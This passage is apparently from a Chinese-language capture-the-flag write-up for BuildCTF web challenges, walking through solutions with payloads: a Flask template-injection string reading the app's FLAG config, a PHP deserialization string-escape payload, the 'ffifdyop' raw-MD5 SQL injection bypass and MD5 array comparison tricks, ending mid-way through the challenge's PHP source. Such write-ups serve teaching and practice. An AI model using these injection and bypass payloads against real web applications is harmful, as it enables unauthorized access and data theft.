 python从环境变量里读取了`flag`，添加到了flask的配置变量里，读取flask变量

::: v-pre
```python
url/redflag/{{url_for.__globals__['current_app'].config['FLAG']}}
```
:::

![17](https://the0n3.top/medias/buildCTF/17.png)

## Why_so_serials?

反序列化过程使用字符替换，导致字符串逃逸，可以让我们构造的字符串变成真正的反序列化的一部分，达到篡改变量值的效果

一个`joker`替换为`batman`时，变量Wayne的长度会增加1，但是Wayne的值是固定的，所以最终Wayne的长度会溢出n个joker的长度，那么就可以把原有的字符串扔掉，把我们给的作为反序列化的一部分，达到逃逸的效果

```php
$payload  = new Gotham('1','1');
echo serialize($payload);
# 正常：O:6:"Gotham":3:{s:5:"Bruce";s:1:"1";s:5:"Wayne";s:1:'1'";s:5:"crime";b:1;}

# 后面原有的";s:5:"crime";b:1;}部分需要扔掉，总共19个字符，所以构造19个joker，再添加上我们需要的crime的值
# O:6:"Gotham":3:{s:5:"Bruce";s:1:"1";s:5:"Wayne";s:1:"jokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjoker";s:5:"crime";b:1;}
$Bruce = '1';
$Wayne = 'jokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjoker";s:5:"crime";b:1;}';
```

payload：`url?Bruce=1&Wayne=jokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjoker";s:5:"crime";b:1;}`


## ez_md5

`$sql = "SELECT flag FROM flags WHERE password = '".md5($password,true)."'";`，这里直接使用`ffifdyop`来绕过，MD5('ffifdyop',true)的值是`'or'6É]é!r,ùíb`,，绕过了sql

第二关，请求里不能有字母，也包括`cookie`请求，cookie里有字母，所以需要先清楚cookie


第一次md5判断`$Build != $CTF && md5($Build) == md5($CTF)`，使用数组绕过`?a[]=1&b[]=2`，绕过了第一关

接着需要使用一个md5值为`3e41f780146b6c246cd49dd296a3da28`的字符串，尝试用`fastcool`生成，发现里面有字母，绕不过去，再看题目的提示`robots`，到`robots.txt`里看，给了爆破掩码`level2 md5(114514xxxxxxx)`

使用php爆破拿到这个数字`1145146803531`

![18](https://the0n3.top/medias/buildCTF/18.png)


```php
<?php
error_reporting(0);
///robots
highlight_file(__FILE__);
include("flag.php");
$Build=$_GET['a'];
$CTF=$_GET['b'];
if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('不可以哦！'); 
    } 
}
if($Build != $CTF && md5($Build) == md5($CTF))
{
    if(md5($_POST['Build_CTF.com']) == "3e41f780146b6c246cd49dd296a3da28")
```